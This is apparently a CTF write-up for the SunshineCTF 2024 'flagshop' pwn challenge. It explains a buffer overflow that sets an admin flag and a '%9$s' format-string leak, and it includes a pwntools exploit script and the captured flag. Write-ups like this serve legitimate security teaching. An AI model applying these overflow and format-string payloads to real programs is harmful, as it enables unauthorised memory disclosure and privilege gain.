 ### Intro
This challenge features a terminal where a user creates an account by entering a username and password, and then issues commands to the terminal. There are two commands - accessing the admin panel, and printing user info. The admin panel can be used to gain access to the flag, but it is locked behind admin permissions. Therefore, the solution to this challenge involves using buffer overflow to gain admin permissions, and then using a format string vulnerability to print the flag.

### Decompilation and Analysis
The main function shows that the program creates a user account, and then takes in user input to execute 1 of 2 commands. The command "1" shows the admin panel.
![[flagshop_main.png]]

`load_panel` handles the admin panel. The program checks if a test value != 0 to see if the user has admin permissions; if so, the program reads the flag file. Note that the test value is at a memory offset from the user input buffer (`param_1` is actually `local_28` which holds account info). Also, note that after reading the flag, `load_panel` prints the username as inputted in `create_account`.
![[flagshop_panel.png]]

As expected, `read_flag` puts the flag into memory.
![[flagshop_flag.png]]

### Buffer Overflow
Getting admin permissions is simple - all that is needed to do is overwrite the test value located after the input buffer.
```
input_buf: "pronouns" input
input_buf+0x8: "username" input
input_buf+0x18: admin test value
```

Therefore, inputting a "pronouns" string that is long enough will overwrite the admin test value and allow access to the admin panel.
![[flagshop_part1.png]]

A string of length=34 does the trick.
![[flagshop_part2.png]]
![[flagshop_part3.png]]

However, accessing the admin panel does not print the flag - but it does load it into memory.

### Format String Vulnerability
The flag is loaded into program memory, but the admin panel only prints the username string. Printing is done using `printf`, so it is possible to use a format string in the user input to arbitrarily print from memory. `%s` will print a string from memory.

Therefore, `%9$s` will print the flag string from memory.

Exploit script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./flagshop')

padding1 = b'p' * 32
formatstr = b'%9$s'
padding2 = b'a' * 32
payload = b''.join([padding1, formatstr, padding2])

p = remote('2024.sunshinectf.games', 24001)
p.recvlines(10)
p.sendline(b'test')
p.recvline()
p.sendline(payload)
p.interactive()

```
Note that the actual buffer overflow + FSV payload is written to the "pronouns" field, but this works because overflowing "pronouns" overwrites "username".

Launching the exploit:
![[flagshop_win.png]]

### Flag
sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}